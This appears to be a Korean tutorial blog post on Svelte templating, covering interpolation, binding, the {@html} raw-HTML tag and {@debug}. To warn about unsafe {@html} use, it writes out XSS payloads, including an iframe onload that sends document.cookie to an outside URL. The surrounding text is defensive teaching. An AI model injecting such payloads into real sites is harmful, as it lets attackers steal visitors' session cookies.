




## 보간법

### 내용/속성/표현식 보간

보간법은 쉽게 말해 `svelte` 파일의 `html` 구조에서 변수 데이터를 쓰는 방식을 의미한다.
`{name}` 이라고 적으면 `name` 변수를 html에 보간할 수 있다고해서 보간법이라고 부른다.

```html
<script>
  let href = "https://github.com/wonieeVicky";
  let name = "Vicky";
  let value = "New input value!";
  let isUpperCase = false;
</script>

<!-- <a href="https://github.com/wonieeVicky">Vicky</a> -->
<a {href}>{name}</a>

<!-- <input type="text" value="Default value.." /> -->
<!-- input 단방향 -->
<input {value} on:input={(e) => (value = e.target.value)} />
<!-- input 양방향 -->
<!-- <input bind:value={value} /> -->
<input bind:value />

<!-- 보간법에서는 표현식도 직접 적어넣을 수 있다. 권장되는 방법 -->
<div>{isUpperCase ? "DIV" : "div"}</div>
```

단방향/양방향 이벤트 바인딩에 따라 데이터 처리 방법이 바뀌므로 참고하자!
리액트에서와 마찬가지로 보간법을 사용해 표현식도 추가해서 넣을 수 있는데 스벨트에서는 별도의 코드 번들링을 처리하지 않고 그대로 파싱해넣으므로, 권장되는 방법 중에 하나이다.

### 원시 HTML, 데이터 디버깅

이번에는 svelte의 원시 html 작성 방법에 대해 살펴본다.
쉽게 말해 어떤 변수가 파싱되어야하는 html 값일 경우를 의미한다.

`App.svelte`

```html
<script>
  let h1 = "<h1>Hello Vicky!</h1>";
</script>

<!-- <h1>Hello Vicky!</h1> 그대로 출력 -->
{h1}
<!-- Hello Vicky! 로 파싱되어 출력 -->
{@html h1}
```



위 코드는 아래와 같은 결과를 도출한다. 즉, html을 파싱하여 돔에 그리고 싶을 경우 `{@html}` 키워드를 앞에 적어넣으면 됨. 그런데 주의해야할 점도 있다.

```html
<script>
  let h1 = "<h1>Hello Vicky!</h1>";
  let xss = "<iframe onload='alert(1)'></iframe>";
</script>

{@html h1} {@html xss}
```

위처럼 xss 라는 변수에 ifame html을 넣어 파싱하면 정상적으로 alert(1)이 실행된다. XSS(Cross Site scription, 사이트 간 스크립팅)은 웹 취약점 중 하나로 위와 같은 로직을 통해 웹 사이트 관리자가 아닌 제 3자가 웹에 악성 스크립트를 삽입할 수 있음을 의미하기도 한다. 이는 치명적인 공격이 될 수도 있다.

아래 예시를 보자

```html
<script>
  let xss = "<iframe onload='document.location=`https://github.com/wonieeVicky?${document.cookie}`'></iframe>";
</script>

{@html xss}
```

위와 같은 코드 작성 후 localhost:8080에 현재 페이지에 쿠키를 삽입해준다.

```jsx
document.cookie = "token=L1k23lanfvs12";
```

위와 같이 cookie를 저장하면 애플리케이션 내 쿠키값에 해당값이 저장된 것을 확인할 수 있다.



이후 위 코드를 실행해보면, 자동으로 [github.com/wonieeVicky로](http://github.com/wonieeVicky)로 이동되며, 파라미터 뒤에 토큰값이 그대로 넘어가게 된 것을 확인할 수 있다.



따라서 iframe 등을 통해 웹 취약점을 공격하여 개인정보가 유출될 수도 있는 것이다. 즉 결론적으로 @html 키워드를 사용해 html을 넣으려고 할 때는 기본적으로 제 3자의 소스를 사용하기 전에 주의가 요구된다. 상황에 따라서는 xss에 대한 기본적인 보안 필터링을 거친 뒤 사용하는 것이 좋다.

이번에는 디버그에 대한 키워드에 대해 알아본다.

`App.svelte`

아래와 같은 코드를 실행했을 때 index나 name 값 변경에 대한 로깅은 어떻게 할 수 있을까?
기존에는 console.log를 넣어 데이터 변화를 감지했다.

```html
<script>
  let name = "Vicky";
  let index = 0;
</script>

<h1 on:click={() => { index++; console.log(index, name); }>Hello {name}!</h1>

```

하지만 스벨트에서는 `{@debug}`라는 디버그 API를 제공한다.

```html
<script>
  let name = "Vicky";
  let index = 0;
</script>

{@debug index, name}
<h1 on:click={() => index++}>Hello {name}!</h1>
```



위와 같은 코드를 넣은 뒤 개발자 창을 열어두고 새로고침하면 debug 기능이 활성화되면서 데이터 변경에 대한 정보를 확인할 수 있다. 개발자 창을 닫은 뒤 새로고침하면 따로 화면이 멈추지는 않고, 콘솔에 변경 데이터에 대한 기록만 남는다. 필요에 따라 그에 맞게 디버그 API를 활용하면 좋을 것 같다.
